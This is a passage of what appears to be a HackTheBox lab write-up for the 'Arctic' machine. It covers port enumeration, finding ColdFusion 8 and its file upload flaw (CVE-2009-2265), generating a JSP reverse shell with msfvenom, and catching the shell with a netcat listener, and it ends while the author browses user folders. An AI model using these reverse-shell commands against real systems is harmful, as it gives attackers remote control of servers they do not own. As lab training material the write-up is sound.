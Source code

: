 ```bash

```

There is an msrpc running at 135 and fmtp( Flight Message Transfer Protocol ) at port 8500 and something at port 49154.

This is the first time I am coming across the fmtp protocol. Checking it out.

![Adobe](First.png)

Adobe Cold Fusion 8. Again, seeing this for the first time.

Checking for known vulnerabilities, I found a [gem](https://www.cvedetails.com/cve/CVE-2009-2265/) in HackTheBox [forum](https://forum.hackthebox.eu/discussion/116/python-coldfusion-8-0-1-arbitrary-file-upload).

## Exploit

There is a file upload vulnerability in ColdFusion 8. The above script allows me to send a jsp file into /userfiles/file/ directory.

Creating a jsp reverse shell and sending it to the server + Running a listner at 443. 



```bash

┌──(kali㉿kali)-[~/HackTheBox/Artic/exploit]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f raw > jspshell.jsp
Payload size: 1496 bytes

┌──(kali㉿kali)-[~]
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.11] 49181
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is F88F-4EA5

 Directory of C:\ColdFusion8\runtime\bin

```

Yeah! That worked.

```cmd

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is F88F-4EA5

 Directory of C:\Users

22/03/2017  09:00 ��    <DIR>          .
22/03/2017  09:00 ��    <DIR>          ..
22/03/2017  08:10 ��    <DIR>          Administrator
14/07/2009  06:57 ��    <DIR>          Public
22/03/2017  09:00 ��    <DIR>          tolis
               0 File(s)              0 bytes
               5 Dir(s)  33.183.768.576 bytes free

C:\Users>cd tolis\Desktop
cd tolis\Desktop
```